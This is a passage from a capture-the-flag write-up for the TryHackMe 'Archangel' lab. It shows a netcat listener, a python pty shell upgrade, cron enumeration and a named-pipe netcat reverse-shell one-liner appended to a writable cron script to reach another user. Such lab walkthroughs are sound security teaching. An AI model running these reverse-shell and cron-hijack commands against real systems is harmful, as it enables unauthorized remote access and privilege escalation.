 ![Image]({{ "/assets/images/thm/archangel/shelldownloaded.png" | relative_url}})
{: refdef}

Now start a netcat listener on your machine on the port 1234(Or the one you specified in the shell)
```shell
nc -nvlp 1234
```
Access the page in the browser **mafialive.thm/shell.php**

<br>
{:refdef: style="text-align: center;"}
![Image]({{ "/assets/images/thm/archangel/revshell.png" | relative_url}})
{: refdef}

Convert the unstable to shell to fairly stable shell using following commands.
```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

## Post Exploitation Enumeration:
Now, its time to enumerate. Before using a script for automated enumeration, I generally try to enumerate manually like checking sudo permissions, SUID binaries, any file in home directory of users or in /var/www/html directory and cron jobs. 

We get a interesting file after looking at scheduled jobs which runs every minute as an user archangel.
```shell
cat /etc/crontab
```

{:refdef: style="text-align: center;"}
![Image]({{ "/assets/images/thm/archangel/crontab.png" | relative_url}})
{: refdef}
<br>
{:refdef: style="text-align: center;"}
![Image]({{ "/assets/images/thm/archangel/catsh.png" | relative_url}})
{: refdef}
<br>
Fortunately, we can read and write the file. The file contains a simple bash command which echoes a string "hello world" inside a file.
We can insert a oneliner reverse shell at the end and get the shell for user Archangel. I used following rev-shell. Change the IP to yours.

```shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.5.125 4444 >/tmp/f" >> helloworld.sh
```
<br>
{:refdef: style="text-align: center;"}
![Image]({{ "/assets/images/thm/archangel/helloworldrevshell.png" | relative_url}})
{: refdef}
<br>
